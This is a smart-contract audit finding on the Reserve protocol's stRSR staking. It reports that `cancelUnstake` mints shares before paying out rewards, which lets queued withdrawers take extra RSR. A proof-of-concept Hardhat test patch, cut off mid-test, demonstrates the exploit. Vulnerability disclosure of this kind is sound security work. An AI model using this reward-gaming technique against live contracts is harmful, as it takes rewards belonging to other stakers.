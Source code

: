 
## [[M-09] `cancelUnstake` lack `payoutRewards` before mint shares](https://github.com/code-423n4/2023-06-reserve-findings/issues/10)

_Submitted by [ronnyx2017](https://github.com/code-423n4/2023-06-reserve-findings/issues/10), also found by [rvierdiiev](https://github.com/code-423n4/2023-06-reserve-findings/issues/39) and [0xA5DF](https://github.com/code-423n4/2023-05-reserve-findings/issues/5)_

`cancelUnstake` will cancel the withdrawal request in the queue can mint shares as the current `stakeRate`. But it doesn't `payoutRewards` before `mintStakes`. Therefor it will mint stRsr as a lower rate, which means it will get more rsr.

### Impact

Withdrawers in the unstake queue can `cancelUnstake` without calling `payoutRewards` to get more rsr rewards that should not belong to them.

### Proof of Concept

POC test/ZZStRSR.test.ts git patch

```patch
diff --git a/test/ZZStRSR.test.ts b/test/ZZStRSR.test.ts
index ecc31f68..b2809129 100644
--- a/test/ZZStRSR.test.ts
+++ b/test/ZZStRSR.test.ts
@@ -1333,6 +1333,46 @@ describe(`StRSRP${IMPLEMENTATION} contract`, () => {
       expect(await stRSR.exchangeRate()).to.be.gt(initialRate)
     })

+    it('cancelUnstake', async () => {
+      const amount: BigNumber = bn('10e18')
+
+      // Stake
+      await rsr.connect(addr1).approve(stRSR.address, amount)
+      await stRSR.connect(addr1).stake(amount)
+      await rsr.connect(addr2).approve(stRSR.address, amount)
+      await stRSR.connect(addr2).stake(amount)
+      await rsr.connect(addr3).approve(stRSR.address, amount)
+      await stRSR.connect(addr3).stake(amount)
+
+      const  initExchangeRate = await stRSR.exchangeRate();
+      console.log(initExchangeRate);
+
+      // Unstake addr2 & addr3 at same time (Although in different blocks, but timestamp only 1s)
+      await stRSR.connect(addr2).unstake(amount)
+      await stRSR.connect(addr3).unstake(amount)
+
+      // skip 1000 block PERIOD / 12000s
+      await setNextBlockTimestamp(Number(ONE_PERIOD.mul(1000).add(await getLatestBlockTimestamp())))
+
+      // Let's cancel the unstake in normal
+      await expect(stRSR.connect(addr2).cancelUnstake(1)).to.emit(stRSR, 'UnstakingCancelled')
+      let exchangeRate = await stRSR.exchangeRate();
+      expect(exchangeRate).to.equal(initExchangeRate)
+
+      // addr3 cancelUnstake after payoutRewards
+      await stRSR.payoutRewards()
+      await expect(stRSR.connect(addr3).cancelUnstake(1)).to.emit(stRSR, 'UnstakingCancelled')
+
+      // Check balances addr2 & addr3
+      exchangeRate = await stRSR.exchangeRate();
+      expect(exchangeRate).to.be.gt(initExchangeRate)
```